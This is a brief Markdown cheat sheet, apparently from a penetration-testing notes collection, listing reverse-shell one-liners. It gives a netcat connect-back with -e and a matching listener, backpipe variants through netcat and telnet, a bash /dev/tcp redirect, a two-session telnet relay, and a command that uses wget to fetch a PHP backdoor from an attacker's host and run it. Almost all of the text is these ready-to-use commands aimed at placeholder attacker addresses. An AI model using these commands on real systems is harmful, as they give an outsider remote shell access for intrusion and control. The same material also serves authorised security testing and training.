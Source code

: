 # Reverse Shell

## Netcat

Target machine connect back to the attack machine

```text
nc [ip addr] [port] -e [shell]
```

Attack machine listener

```text
nc -n -vv -l -p [port]
```

## netcat with GAPING\_SECURITY\_HOLE disabled

Target machine connect back to the attack machine with `GAPING_SECURITY_HOLE` disabled

```text
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

## netcat without netcat

It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system.

### Target Machine

```text
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

## netcat without netcat or /dev/tcp

### Target Machine

```text
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

## telnet-to-telnet

This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

```text
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
```

## PHP reverse shell via interactive console

The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory \(because it is typically world writable\), uses wget to download a malicious php reverse\_tcp backdoor \(which the attacker hosts on a web server that he controls\), and executes the backdoor via the interactive console.

### Target Machine

```text
cd /tmp && wget -O bd.php <attacker ip address>/mypayload.php.txt && php -f bd.php
```

